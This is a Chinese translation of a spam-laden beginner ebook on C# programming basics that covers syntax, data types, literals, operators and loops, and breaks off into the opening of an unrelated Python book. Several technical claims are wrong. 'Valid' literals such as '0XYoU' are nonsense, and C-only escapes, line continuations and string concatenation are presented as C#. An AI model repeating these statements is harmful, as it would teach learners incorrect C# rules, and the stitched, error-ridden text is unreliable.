# C# 手册：2周学会 C# 编程基础


更多免费和特价书籍请访问 [KindleBookSpot.com](https://KindleBookSpot.com)


## 附赠书籍：
（点击以下任意链接即可前往免费附赠书籍！）
- [附赠书籍：Scrum 训练营](#)
- [附赠书籍：Python 训练营](#)
- [附赠书籍：Java 训练营](#)
- [附赠书籍：JavaScript 训练营](#)
- [附赠书籍：C# 训练营](#)
- [附赠书籍：黑客技术训练营](#)
- [附赠书籍：Excel 训练营](#)
- [附赠书籍：SEO 训练营](#)
- [附赠书籍：SQL 训练营](#)
- [附赠书籍：Python 学院](#)
- [附赠书籍：JavaScript 学院](#)
- [附赠书籍：Windows 10 学院](#)
- [附赠书籍：被动收入任务](#)
- [附赠书籍：14 天旧石器饮食计划](#)

附赠书籍：14 天生酮饮食计划
附赠书籍：14 天地中海饮食计划
附赠书籍：14 天全食物饮食计划
附赠书籍：14 天 DASH 饮食计划
附赠书籍：14 天纯素饮食计划
附赠书籍：14 天果昔清体
附赠书籍：14 天茶饮清体
附赠书籍：14 天懒人晚餐计划
附赠书籍：14 天精油计划
附赠书籍：生酮饮食挑战
附赠书籍：纯素饮食挑战
附赠书籍：全食物饮食挑战
附赠书籍：10 天绿色果昔清体
附赠书籍：茶饮清体挑战
附赠书籍：精油挑战
附赠书籍：慢炖锅食谱挑战

## [附赠书籍：旧石器饮食挑战](#)

## 引言
## 在开始阅读之前

>>点击这里<<
## 我有一条你必须阅读的非常重要的信息
我保证这不是垃圾信息，我也不是在向你推销任何东西！
>>立即点击这里！<<


我想感谢并祝贺你下载了《两周内学习 C# 编程基础》这本书。
本书包含经过验证的步骤和策略，介绍如何在 14 天内学习这门强大的编程语言。
这本电子书专为想要了解 C# 基础知识的人设计。基本上，它旨在帮助你在短短 2 周内掌握这个主题。为了实现这一目标，本书涵盖了 C# 编程语言的重要方面。它没有不必要的介绍或旁枝故事。本书将教你所需了解的内容，使你经过 2 周学习后成为熟练的 C# 用户。

## 在本书中，你将学习：
- C# 基础知识
- C# 程序的结构
- 基本语法
- 以及更多内容！

再次感谢你下载本书，希望你喜欢！

## 在我们开始之前……附赠：获取我提供的更多免费书籍！
感谢阅读我的书！希望你能从中获得很棒的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！
只需点击下面的链接，并在我的网站上输入你的电子邮件地址！
如果你认真想要改变自己的编程技能，你获得的一切都会对你有用。我将提供：
- 我写的更多书籍
- 我如何以创纪录的时间学会编程
- 我最喜欢的编程相关产品信息
- 以及更多内容！
点击这里获取所有这些信息！

## 第 1 章：C#——基本信息
C# 是一种用于计算机编程的高级、通用且面向对象的语言。微软是当今最大的公司之一，它开发了这门编程语言，作为其产品系列的一部分。为了证明 C# 实用且可靠，ISO（国际标准化组织）和 ECMA（欧洲计算机制造商协会）批准了这门计算机语言。
根据微软的说法，C# 语言是为 CLI（即公共语言基础结构）设计的。CLI 由运行时环境和可执行代码组成，这些代码允许在各种计算机体系结构和平台上使用高级编程语言。
以下是专业程序员使用 C# 的主要原因：
- C# 是一种面向对象的语言。
- C# 简单易学。
- C# 是一种面向组件的语言。
- C# 是一种结构化编程语言。
- C# 是高级且通用的。
- C# 可以生成出色的程序。
- C# 允许用户使用不同的计算机系统进行编译。

## C# 最强大的特性
C# 与较旧的编程语言（即 C、C++ 和 Java）有一些相似之处。它拥有吸引全球数百万程序员的出色特性。在本节中，我们来讨论 C# 的最佳特性。请看下面的列表：
- 索引器
- 程序集版本控制
- 布尔条件
- 条件编译
- Windows 集成
- 属性和事件
- 简单多线程

## C# 环境
本节将讨论 C# 的要求。你可能知道，C# 是 .Net 框架的一部分。因此，在学习可以用这门语言做什么之前，你应该熟悉 .Net。

### 什么是 .Net？
这个框架是一个创新性程序，允许用户编写各种应用程序。这些应用程序包括：
- Web 服务
- Web 应用程序
- Windows 应用程序
为 .Net 设计的应用程序也可以在其他平台上运行。基本上，这个框架与以下编程语言兼容：
- C++
- C#
- Jscript
- COBOL
- Visual Basic
.Net 由大量代码集合组成。以下是你将遇到的一些代码：
- LINQ
- ADO.NET
- Windows Forms
- ASP.Net
- 公共类型系统

### C# 的集成开发环境
微软为 C# 程序员提供各种工具（例如 Visual Web Developer）。你只需访问微软官方网站即可获取免费编程工具。这意味着你可以不花任何钱创建大量计算机程序。如果你愿意，可以使用记事本（或其他文本编辑器）为应用程序创建源代码。然后，使用 .Net 的内置编译器将代码编译为程序集。

## 如何在 Mac 或 Linux 系统上编写 C# 程序
诚然，这个框架是为 Windows 计算机创建的。但是，即使你使用其他系统（例如 Mac 或 Linux），仍然可以运行 .NET 框架。例如，你可以使用一个名为“Mono”的 .Net 变体。这个变体预装了 C# 编译器，并兼容不同的操作系统。

## 第 2 章：C# 程序的基本结构
本章将教你 C# 程序的基本结构。这些信息可以帮助你实现目标（即在 2 周内掌握 C# 基础知识）。

### 编写你的第一个程序
C# 程序由以下部分组成：
- 类
- 注释
- 表达式和语句
- 命名空间声明
- 类特性
- Main 方法
分析下面的截图。这是一段简单的代码，会打印出这句话：“Hello World”
```csharp
using System;
namespace HelloWorldApplication
{
    class HelloWorld
    {
        static void Main(string[] args)
        {
            /* my first program in C# */
            Console.WriteLine("Hello World");
            Console.ReadKey();
        }
    }
}
```
编译并执行上述代码后，你将得到以下语句：

现在，我们来分析这段简单代码的各个部分：
- using System; - “using”是一个关键字，可以将命名空间与程序链接起来。通常，一个程序包含许多 using 语句。在本例中，using 用于将 System（即一个命名空间）附加到程序中。
- namespace——这是代码的第二行。基本上，命名空间是一组不同的类。在上面的示例中，HelloWorldApplication（一个

namespace）包含 HelloWorld（一个类）。

- **class** – 这一行称为“类声明”。它表明 HelloWorld 保存程序所需的信息。通常，类包含各种方法。然而，在此情况下，该类只包含一个方法（即“Main”）。
- **Main** – 此方法作为所有 C# 代码的入口点。Main 指定其所属类的能力。
- **/* ... */** - C# 编译器会忽略这一行。如果你想向程序添加一些**注释**，则应使用它。
- **Console.WriteLine(“ Hello World ”);** - Main 使用此语句指定该类的行为。
  - **WriteLine** - 此方法属于名为 Console 的类。WriteLine 使屏幕显示代码的消息（即 Hello, World）。
- **Console.ReadKey();** – 这一行是为 VS.NET（即 Visual Studio .NET）用户设计的。如果你使用 VS.NET 启动程序，Console.ReadKey() 会阻止屏幕关闭。

以下是四件需要记住的事：

- 你不必使用类名作为程序的文件名。
- 程序的执行从 **Main** 开始。
- 每条语句和表达式都必须以分号结束。
- C# 编程语言区分大小写。

## 如何编译和执行 C# 程序

### 使用 Visual Studio .NET

如果你使用 VS.NET，需要执行以下步骤：

- 1. 打开 Visual Studio。
- 2. 转到菜单栏并选择“文件”。然后，单击“新建”和“项目”。
- 3. 屏幕将显示若干模板。找到“Visual C#”并选择 Windows。
- 4. 选择“控制台应用程序”。
- 5. 为新项目指定名称，然后点击“确定”。此操作将在解决方案资源管理器中创建一个项目。
- 6. 在 VS.NET 的代码编辑器中输入代码。
- 7. 按 F5 或点击“运行”来运行程序。对于当前示例，将出现一个新窗口显示“Hello, World.”。

### 使用命令行

你也可以使用命令行编译 C# 程序。以下是需要执行的操作：

- 1. 打开你喜欢的文本编辑器。
- 2. 输入上面给出的代码。
- 3. 将文件保存到任意目录，并命名为 hw.cs。
- 4. 打开计算机的命令提示符，并指定你在步骤 3 中选择的目录。
- 5. 输入 csc hw.cs 并按“Enter”键编译代码。
- 6. 如果代码输入正确，你将看到一个名为 hw.exe 的可执行文件。
- 7. 输入 hw 运行程序。
- 8. 屏幕应显示“Hello, World.”。

## 第 3 章：基本语法

本章将讨论 C# 编程中使用的语法。请仔细学习这些材料，因为它可以帮助你在 2 周内掌握这门编程语言。

### C# - *面向对象的语言*

如第一章所述，C# 语言是面向对象的。这意味着每个程序都由可以相互通信的不同对象组成。对象可以执行动作（称为“方法”）。

为了帮助你理解这个概念，让我们分析一个简单的对象：矩形。下面的截图显示了 Rectangle 类的代码。让我们在学习 C# 基本语法的同时分析这段代码：

```csharp
using System;
namespace RectangleApplication
{
    class Rectangle
    {
        // member variables
        double length;
        double width;
        public void Acceptdetails()
        {
            length = 4.5;
            width = 3.5;
        }
        public double GetArea()
        {
            return length * width;
        }
        public void Display()
        {
            Console.WriteLine("Length: {0}", length);
            Console.WriteLine("Width: {0}", width);
            Console.WriteLine("Area: {0}", GetArea());
        }
    }
    class ExecuteRectangle
    {
        static void Main(string[] args)
        {
            Rectangle r = new Rectangle();
            r.Acceptdetails();
            r.Display();
            Console.ReadLine();
        }
    }
}
```

编译并执行该代码后，你将得到以下结果：

```text
Length: 4.5

Width: 3.5

Area: 15.75
```

现在，让我们逐一讨论该代码的各个部分：

- **using** – 所有 C# 代码都以这一行开头。“using”是一个关键字，可以链接 C# 程序内部的命名空间。再次说明，一个程序可以包含多个“using”行。这意味着你可以在每个程序中包含多个命名空间。
- **class** – 应使用此关键字来声明类。
- **注释** – 应使用此部分来解释代码。通常，C# 编译器会忽略此部分。确保多行注释以 /* 开头并以 */ 结尾。请查看下面的示例：
  - 另一方面，对于单行注释，请使用两个斜杠（即 //）。请查看下面的示例：
- **成员变量** – 这些是类的数据成员或属性。应使用变量来存储数据。对于当前示例，名为 Rectangle 的类有 2 个成员变量：width 和 length。
- **成员函数** – 函数是执行特定任务的命令集合。通常，应在类内部声明类的函数。在上面给出的程序中，Rectangle 有 3 个成员函数：Display、GetArea 和 AcceptDetails。

```
/* This program demonstrates
The basic syntax of C# programming
Language */
```

```
}//end class Rectangle
```

### C# 标识符

标识符是用于确定类、函数、变量或程序员定义的任何项目的名称。在 C# 语言中命名类时，必须遵循以下规则：

- 每个名称都应以字母开头。你可以继续使用字母、数字和下划线来命名。标识符的名称不能以数字开头。
- 你选择的名称不能包含空格或特殊符号（例如 ?、+、% 和 *）。但是，如上一规则所述，命名标识符时可以使用下划线。
- 不能使用任何 C# 关键字作为标识符的名称。

### C# 语言的关键字

基本上，关键字是在 C# 语言中具有预定义功能的保留字。你不能在命名标识符时使用关键字。然而，如果你确实想这样做，可以在关键字开头添加“@”符号。

在这种编程语言中，一些标识符（例如 set、get 等）具有特殊含义。程序员将这些标识符称为“上下文关键字”。

你将在下面看到两个表格。这些表格将向你展示 C# 语言中的上下文关键字和保留关键字。

### 上下文关键字

|  |  |  |  |  |  |  |
|---|---|---|---|---|---|---|
| set | get | let | add | group | alias | from |
| select | partial (method) | global | partial (type) | dynamic | orderby | descending |
| ascending | into | remove | join |  |  |  |

### 保留关键字

|  |  |  |  |  |  |  |
|---|---|---|---|---|---|---|
| as | if | is | In | do | try | int |
| new | for | out | ref | goto | this | else |
| void | true | lock | char | byte | base | case |
| bool | long | null | uint | using | sbyte | catch |
| const | break | short | throw | ulong | while | event |
| class | float | false | fixed | decimal | abstract | checked |
| continue | delegate | explicit | internal | double | default | finally |
| in (as a generic modifier) | readonly | return | sealed | interface | implicit | static |
| virtual | switch | sizeof | namespace | params | foreach | protected |
| stackalloc | string | override | operator | unchecked | volatile | private |
| object | public | unsafe | extern | enum | typeof | ushort |
| out (as a generic modifier) | struct |  |  |  |  |  |

## 第 4 章：C# 中的不同数据类型

本章将讨论你在 C# 中会遇到的各种数据类型。请仔细学习本章。作为程序员，你将在代码和语句中处理不同类型的数据。这意味着你应该了解这些数据类型。

在 C# 语言中，变量分为五种类型。让我们详细讨论每种类型：

### 值类型

你可以直接为此类变量赋值。如果需要使用它们，只需访问名为 System.ValueType 的类。

这些变量在其内部保存数据。这意味着它们不涉及第三方工具或机制。下面的列表将向你展示 C# 中可用的值类型：

- Int
- long


- char
- bool
- sbyte
- double
- decimal
- byte
- float
- ushort
- uint
- short
- ulong

## 引用类型

此类型的变量不直接存储数据，而是指向保存数据的变量。这意味着，如果你想要指向某个文件目录或内存位置，就应该使用此类型。

## 对象类型

C# 用户将其视为该语言中所有数据的核心类。“Object” 是名为 **System.Object** 的 C# 类的别名。你可以使用对象类型存储其他类型的数据。但是，在赋值之前，你必须执行类型转换。

将值转换为对象的过程称为**装箱**。反之，将对象转换为值的过程称为**拆箱**。

## 动态类型

这种变量允许你存储任何值。使用动态变量时，类型检查在运行时进行。以下是声明动态数据类型时需要使用的语法：

dynamic <变量名> = 你想要赋予的值；

例如：

```
dynamic x = 99;
```

动态数据类型和对象数据类型几乎相同。唯一的区别在于类型检查的时机。对象变量在编译时执行类型检查，而动态变量在运行时执行类型检查。

## 字符串类型

你可以使用此类型为所选变量赋予字符串值。此类型是名为 System.String 的 C# 类的别名。计算机专家认为，字符串变量派生自对象类型。

你可以使用字符串字面量（即带引号或 @ 引号）来为字符串类型变量赋值。请看以下示例：

```
string str = "Tutorials Point";
```

那一行的 @ 引号字符串字面量是：

```
@"Tutorials Point";
```

## 第 5 章：变量

“变量”一词指的是可由计算机程序操作的内存位置。这种编程语言中的每个变量都属于特定类型，该类型指定了以下方面：

- 变量使用的内存的大小和结构
- 你可以存储在变量内存中的值
- 你可以应用于变量的一组操作。

你可以通过以下方式对 C# 中的值类型进行分类：

- 1. 小数类型（Decimal Types）
- 2. 可空类型（Nullable Types）
- 3. 整数类型（Integral Types）
- 4. 布尔类型（Boolean Types）
- 5. 浮点类型（Floating Point Types）

### 如何定义变量

定义变量时，请使用以下语法：

```
`<data_type> <variable_list>;`
```

在此语法中，你必须将“data_type”替换为 C# 语言中的数据类型。对于“variable_list”，你可以添加一个或多个标识符。应使用逗号分隔标识符。

### 如何初始化变量

可以使用“=”（即等号）初始化变量。要完成此过程，只需在等号后添加一个常量表达式。以下是变量初始化的基本语法：

```text
variable_name = value;
```

你可以在声明阶段初始化变量。如前所述，初始化是通过放置“=”后跟表达式来实现的。以下是一个示例：

```text
<data_type> <variable_name> = value;
```

为了帮助你理解这个概念，下面再给出一些示例：

```java
int x = 2, y = 3;        /* it initializes x and y */

byte d = 99;             /* it initializes d */

char a = 'a';            /* the variable named a has 'a' as its value */
```

根据专业程序员的经验，你应该始终正确初始化变量。如果不这样做，程序可能会表现出意外行为或产生不理想的结果。

### 如何输入值

C# 有一个名为 **System** 的命名空间。该命名空间包含不同的类，其中之一是 **Console**。这个类提供了 **ReadLine()** 函数，该函数接受用户输入并将其存储到变量中。

例如：

```
int num;
num = Convert.ToInt32(Console.ReadLine());
```

**Console.ReadLine()** 以字符串变量的形式接收数据。如果你希望将数据用作 int 变量，可以使用名为 **Convert.ToInt32()** 的函数。

## 第 6 章：字面量和常量

“字面量”一词指的是固定或不可更改的值：在程序执行期间，你无法更改这些值。字面量也称为常量。字面量可以采用任何基本数据类型的形式（例如浮点常量、整型常量、字符串常量、字符常量等）。此外，你可以在 C# 语句中使用枚举字面量。

### 整数常量

整数常量可以是八进制、十进制或十六进制字面量。应使用前缀来指定基数（也称为 radix）。请查看此列表：

- 对八进制字面量使用 0
- 对十六进制字面量使用 0X 或 0x
- 十进制字面量不需要前缀

整数字面量也可以有 L 和 U 作为后缀。L 用于长整数，U 用于无符号整数。这些后缀不区分大小写。

下面的列表将向你展示有效和无效的整数常量：

- 131 – 有效
- 312u – 有效
- 0XYoU – 有效
- 218 – 无效：数字 8 不是八进制数。
- 123UU – 无效：不能重复使用后缀。

下面是第二个示例列表。不过，这个列表将向你展示不同类型的整数常量：

- 0123 – 八进制
- 86 – 十进制
- 0x5b – 十六进制
- 20 – int
- 20u – 无符号整数
- 20l – 长整数
- 20ul – 长无符号整数

### 浮点常量

浮点常量可能包含以下部分：

- 1. 小数点
- 2. 指数
- 3. 整数
- 4. 小数部分

以下是浮点常量的有效和无效示例：

- 3.14 – 有效
- 3145L – 有效
- 310E – 无效：指数不完整。
- 310f – 无效：此常量没有指数或小数点。
- .e44 – 无效 – 此常量缺少小数部分或整数。

使用十进制数时，应包含指数、小数点，或两者都包含。而使用指数形式时，应包含小数部分、整数，或两者都包含。应使用“ E ”或“ e ”来引入带符号的指数。

### 字符常量

应将字符常量放在单引号内。例如，你可以将“ a ”存储在普通的 char 类型变量中。通常，字符常量可以采用简单字符（如“ b ”）、通用字符（如“ \u03B0 ”）或转义序列（如“ \t ”）的形式。

在 C# 语言中，某些字符如果由反斜杠引导，就会获得特殊含义。由于它们具有特殊含义，你可以将其用于某些功能，例如制表符（\t）或换行符（\n）。下面的列表将展示一些转义序列及其含义：

- \' – 表示单引号字符。
- \" – 表示双引号字符。
- \\ – 表示反斜杠字符。
- \? – 表示问号。
- \a – 表示响铃或警报。
- \b – 表示退格。
- \n – 表示换行。
- \f – 表示换页。
- \t – 表示水平制表符。
- \r – 表示回车。
- \ooo – 表示一个 1-3 位的八进制数。
- \v – 表示垂直制表符。
- \xhh … - 表示一个一位或多位的十六进制数。

### 字符串常量

应使用双引号（即“”或 @“”）括起字符串常量。通常，字符串常量与字符常量类似：它们包含转义序列、通用字符和普通字符。

你可以使用字符串字面量将长行拆分为较短的行。然后，可以使用空白字符来分隔这些短行。下面的列表将展示一些字符串常量：

- “ hi, girl ”
- “ hi, \
  girl ”
- “ hi, ” “ g ” “ irl ”
- @ “ hi girl ”

重要提示：上面给出的字符串常量是相同的。它们将产生相同的结果：hi girl

### 如何定义字面量

你可以使用 **const**（即 C# 关键字）来定义常量。定义常量时，应使用以下语法：

```
const <data_type> <constant_name> = value;
```


## 第 7 章：C# 中的运算符

运算符决定了逻辑或数学操作应如何执行。基本上，运算符是可以与 C# 编译器通信的符号。这种编程语言拥有一个强大的预置运算符集合。这些运算符分为六类，分别是：

- 关系运算符
- 赋值运算符
- 算术运算符
- 位运算符
- 逻辑运算符
- 杂项运算符

让我们详细讨论每一类：

### 关系运算符

下表将向你展示 C# 语言中可用的关系运算符。让我们使用两个变量：X = 2；Y = 4。

- “ == ” – 该运算符测试操作数的相等性。如果两个值相等，该运算符将返回“ true ”作为结果。例如，“ Y == X ”不为真。
- “ > ” – 该运算符检查两个操作数的值。如果左操作数的值高于右操作数的值，则条件为真。例如：“ Y > X ”为真。
- “ < ” – 该运算符检查所涉及操作数的值。如果右操作数的值高于左操作数的值，则条件为真。例如：“ X < Y ”为真。
- “ != ” – 该运算符检查操作数的相等性。如果操作数的值不相等，则条件为真。例如：“ Y != X ”为真。
- “ <= ” – 该运算符测试左操作数的值是否小于或等于右操作数的值。这里有一个例子：“ Y <= X ”不为真。
- “ >= ” – 该运算符测试右操作数的值是否小于或等于左操作数的值。这里有一个例子：“ Y >= X ”为真。

### 赋值运算符

以下列表展示了 C# 兼容的赋值运算符：

- “ = ” – 该赋值运算符可以将右操作数的值复制并赋给左操作数。例如：Z = X + Y 会将 X + Y 的值赋给 Z。
- “ += ” – 该赋值运算符被称为“加且赋值”。它可以将右操作数的值与左操作数的值相加，并将和赋给左操作数。例如：Z += X 等同于 Z = Z + X。
- “ -= ” – 该运算符被称为“减且赋值”。它可以用左操作数的值减去右操作数的值，并将差赋给左操作数。例如：Z -= X 等同于 Z = Z − X。
- “ *= ” – 该运算符被称为“乘且赋值”。它可以将右操作数的值与左操作数的值相乘，并将乘积赋给左操作数。例如：Z *= X 等同于 Z = Z * X。
- “ /= ” – 该赋值运算符被称为“除且赋值”。它可以将左操作数的值除以右操作数的值，并将结果赋给左操作数。这里有一个例子：Z /= X 等同于 Z = Z / X。
- “ %= ” – 该运算符被称为“取模且赋值”。它使用两个操作数进行取模，并将结果赋给左操作数。例如：(Z %= X) 等同于 (Z = Z % X)。
- “ <<= ” – 该运算符被称为“左移且赋值”。它根据右操作数指示的数量将左操作数的值向左移动，然后将值赋给左操作数。其工作方式如下：Z <<= 3 等同于 Z = Z << 3。
- “ >>= ” – 该运算符被称为“右移且赋值”。它根据右操作数指示的数量将左操作数的值向右移动。请检查这个例子：(X >>= 3) 等同于 (X = X >> 3)。

### 算术运算符

下面的列表展示了 C# 语言中可用的算术运算符。为了帮助你理解每个运算符，让我们使用两个变量：X = 2 和 Y = 4。

- “ + ” – 该运算符将两个操作数相加（例如 X + Y = 6）。
- “ - ” – 该运算符从第一个变量的值中减去第二个变量的值（例如 Y - X = 2）。
- “ * ” – 该运算符将操作数相乘（例如 X * Y = 8）。
- “ / ” – 该运算符用分子除以分母（例如 Y/X = 2）。
- “ ++ ” – 这被称为自增运算符。它将变量的值增加 1（例如 X++ = 3）。
- “ -- ” – 这被称为自减运算符。它将变量的值减少 1（例如 Y-- = 3）。

### 位运算符

你可以使用位运算符来处理比特位。使用这一类别，你将能够执行逐位运算。下面的表格包含 ^、| 和 & 的真值表。

| p | q | p & q | p \| q | p ^ q |
|---|---|---|---|---|
| 0 | 0 | 0 | 0 | 0 |
| 0 | 1 | 0 | 1 | 1 |
| 1 | 1 | 1 | 1 | 0 |
| 1 | 0 | 0 | 1 | 1 |

对于以下示例，假设 X 是 60，Y 是 13。让我们将它们转换为二进制元素：

X = 0011 1100

Y = 0000 1101

现在，让我们对这些变量执行位运算：

X|Y = 0011 1101

X&Y = 0000 1100

~X = 1100 0011

X^Y = 0011 0001

下面的列表展示了 C# 语言中可用的位运算符。让我们使用相同的值：X = 60；Y = 13。

- “&” – 这个二元运算符被称为“AND”。如果两个操作数的对应位都是 1，则该位将被复制到结果中。例如：(X & Y) = 12，即 0000 1100。
- “|” – 该运算符被称为“OR”。它将复制存在于任一操作数中的位。例如：(X | Y) = 61，即 0011 1101。
- “^” – 这个二元运算符被称为 XOR。它只复制存在于一个操作数中的位。因此，XOR 不会复制两个操作数中都存在的位。这里有一个例子：(X ^ Y) = 49，即 0011 0001。
- “~” – 这是一个一元运算符。在 C# 编程语言中使用时，它会“翻转”位。这里有一个例子：(~X) = -61，即 1100 0011。
- “>>” – 这被称为“右移运算符”。它根据右操作数指示的位数将左操作数的值向右移动。这里有一个例子：X >> 2 = 15，即 0000 1111。
- “<<” – 这被称为左移运算符。它根据右操作数指示的位数将左操作数的值向左移动。例如：X << 2 = 240，即 1111 0000。

### 逻辑运算符

下面的列表将向你展示 C# 中可用的逻辑运算符。让我们为 X 和 Y 赋值布尔值。X 的值为“TRUE”，而 Y 的值为“False”。

- “||” – 该运算符被称为“逻辑或”。如果其中一个操作数不为零，则条件为真。例如：(X || Y) 为真。
- “&&” – 该运算符被称为“逻辑与”。如果所有操作数都不为零，则条件为真。例如：(X && Y) 为假。
- “!” – 该运算符被称为“逻辑非”。你应该使用它来反转操作数的状态。如果条件为真，该运算符将使其变为假。!(X || Y) 为假。

### 杂项运算符

C# 编程语言还支持其他运算符。以下是其中重要的几个：

- “ sizeof() ” – 该运算符可以确定任何数据类型的大小。例如，**sizeof(int)** 会返回 4。
- “ typeof() ” – 该运算符可以确定任何类的类型。例如：**typeof(StreamReader)。**
- “ & ” – 你可以使用该运算符来确定任何变量的地址。例如：**&x** 将给出名为“ x ”的变量的地址。
- “ * ” – 你可以使用该运算符创建指向任何变量的指针。例如：你可以使用 *x 创建一个指针，将其命名为“ x ”，并将其赋值给任何变量。
- “ ?: ” – 该运算符被称为“条件表达式”。它根据条件向任何变量赋值。例如，如果条件为真，它可能会将 X 的值赋给一个变量；但如果条件为假，它将赋 Y 的值。
- “ is ” – 你可以使用该运算符来确定某个对象是否属于特定类型。这里有一个例子：**If( Gucci is Bag)** // 将检查名为 Gucci 的对象是否属于名为 Bag 的类。

## 第 8 章：C# 中的循环

在某些情况下，你必须多次执行一个代码块。然而，重复输入相同的语句既无聊又耗时。这意味着你应该找到一种快速且轻松地重复代码块的方法。如果你不知道如何实现这一点，本章将对你大有帮助。

重要提示：语句通常是按顺序执行的。这意味着 C# 先执行第一条语句，然后执行下一条，依此类推。在阅读本章时，你应该记住这个概念。

与其他编程语言一样，C# 在执行路径方面为你提供了不同的控制结构。这意味着如果你需要处理复杂的程序，你可以使用有效的结构。

如果你必须多次执行相同的代码块，你可以使用循环语句来简化任务。下图将向你展示 C# 中循环语句的基本形式：



C# 编程语言提供了不同种类的循环。你可以将这些循环用于自己的代码。请查看下面的列表：


-   **While Loops** – 这些循环在指定的条件为真时重复执行一条语句或一组语句。一般来说，while 循环在运行循环命令之前先检查条件的結果。
-   **For Loops** – 使用这些循环，你可以多次执行一系列语句。此外，你可以简化控制循环变量的代码。
-   **Do … While Loops** – 这些循环与 while 语句类似。然而，它们在执行循环体之后才检查条件。
-   **Nested Loops** – 你可以在其他循环中使用这些循环。

让我们详细讨论每种循环类型：

## While 循环

这些循环可以在给定的条件为真时重复执行你想要的语句。下面的图片展示了 C# 语言中 while 循环的语法：

```csharp
while(condition)
{
    statement(s);
}
```

## For 循环

“For 循环”被视为控制重复的结构。你可以使用此结构编写必须多次执行的语句。以下是你在 C# 中编写 for 循环时应遵循的语法：

```csharp
for ( init; condition; increment )
{
    statement(s);
}
```

### Do … While 循环

这些循环在到达其体尾部时测试条件。由于它们在检查条件之前先执行其功能，因此 do … while 循环至少执行一次其循环体。下面的图片展示了 C# 语言中 do … while 循环的语法：

```csharp
do

{

    statement(s);

}while( condition );
```

如你所见，条件表达式位于语法的最后部分。这意味着循环会在检查程序员输入的条件之前先执行语句/语句。

### 嵌套循环

C# 编程语言允许你将循环放在其他循环内部。这意味着你可以在程序中组合不同类型的循环。你需要使用的语法取决于你想用作“容器”的循环。请查看以下语法：

-   *嵌套 For 循环：*

```csharp
for ( init; condition; increment )
{
    for ( init; condition; increment )
    {
        statement(s);
    }
    statement(s);
}
```

-   *嵌套 While 循环：*

```
while(condition)
{
    while(condition)
    {
        statement(s);
    }
    statement(s);
}
```

-   *嵌套 Do ... While 循环：*

```
do
{
    statement(s);

    do
    {
        statement(s);
    }while( condition );

}while( condition );
```

## 结论

再次感谢你下载本书！

我希望本书能帮助你在两周内学习 C# 的基础知识。

下一步是练习使用这种语言创建自己的程序。

最后，如果你喜欢这本书，我想请你帮个忙，你能否在 Amazon 上为本书留下评论？将不胜感激！

点击此处在 Amazon 上为本书留下评论！

另外，请务必订阅我的技术和编程通讯以获取你的免费书籍！点击此处。

谢谢，祝好运！

点击此处获取使用 Bluehost 设置你的 Wordpress 网站的分步说明。

## 奖励：通过我获取更多免费书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

如果你认真想要提升编程技能，你将获得的一切都将对你有用。我将提供：

-   我写的更多书籍
-   我如何在创纪录的时间内学会编程
-   与编程相关的我最喜欢的产品信息
-   以及更多！

[点击此处获取所有这些信息！]

如果你还没有，请务必查看我的新网站，*KindleBookSpot.com*。这是一个我一直在努力的新项目，我真的希望它对我的读者有价值。我创建这个网站是因为我想给你们一个更简单的方式在一个地方找到最热门的 Kindle 折扣书籍。以下是我的网站的一些详情：

-   最畅销免费 Kindle 书籍的列表
-   折扣小说和非小说书籍
-   每周一书
-   精选书籍
-   在我的网站上推广你自己的书籍

这个网站不仅仅是为读者准备的，也是新兴作者在他们成为畅销书之前推广新书的地方。所以如果你想推广自己的书籍，请查看我的网站，*KindleBookSpot.com*。

我希望这个网站对你有用，也希望在那里见到你！

*订阅我们不断发展的 KindleBookSpot 社区，在最佳书籍打折和免费时收到通知。*

我想感谢你并祝贺你下载了书籍，“ *在两周内学习 Python 编程基础* ” 。

本书包含编写和运行 Python 程序的经过验证的步骤和策略。里面有示例代码和程序可供你作为指南使用。

本书还包含对编程语言的介绍，包括简史和 Python 的基础知识。它还包含对 Python 中功能的详细解释。

再次感谢你下载本书，我希望你喜欢它！

## 在开始之前 ... 奖励：通过我获取更多免费书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

如果你认真想要提升编程技能，你将获得的一切都将对你有用。我将提供：

-   我写的更多书籍
-   我如何在创纪录的时间内学会编程
-   与编程相关的我最喜欢的产品信息
-   以及更多！

点击此处获取所有这些信息！

## 第 1 章：Python 简介

如果你正在寻找一种以代码可读性为主要关注点的通用、高级编程语言，你应该考虑 Python。它的语法允许你使用比其他编程语言（如 C、C++ 和 Java）更少的代码行来表达概念。它支持广泛的编程范式，从而涵盖命令式、函数式和面向对象编程。此外，它还具有全面的标准库、动态类型系统和自动内存管理。

有很多解释器可供你在不同操作系统上安装；因此，你可以在各种系统上执行 Python。你甚至可以使用第三方应用程序。如果你不想安装解释器，你可以将代码打包成独立的可执行程序，以便有效地将基于 Python 的软件分发到不同的环境。

## Python 编程语言简史

Python 由 Guido van Rossum 在 1980 年代末开发。最初它只是一个圣诞项目。Van Rossum 想要一个 C 和 UNIX 黑客会使用的脚本语言解释器。他的小项目最终升级为 Python 2.0，于 2000 年 10 月发布。这个新版本具有完整的垃圾回收器和 Unicode 支持。Python 3.0，也称为 Python 3000 和 py3k，于 2008 年 12 月发布，并具有回溯到 2.6 和 2.7 版本的功能。

## 为什么应该使用 Python？

编程语言的存在是有原因的。例如，Python 是为了让程序员创建高效且富有成效的代码而开发的。其主要目标是帮助初学者轻松快速地学习一门编程语言。由于学习时间更短，你可以创建更有用的应用程序，而这些应用程序使用更晦涩和复杂的编程语言则难以实现。

使用 Python 编写应用程序时，你还可以受益于更少的开发时间。如前所述，Python 的代码行数比 C、C++ 和 Java 更少。它的代码实际上短五到十倍；因此更高效、更不复杂。你可以将更少的时间花在开发应用程序上，而将更多时间用于调整和改进它们。

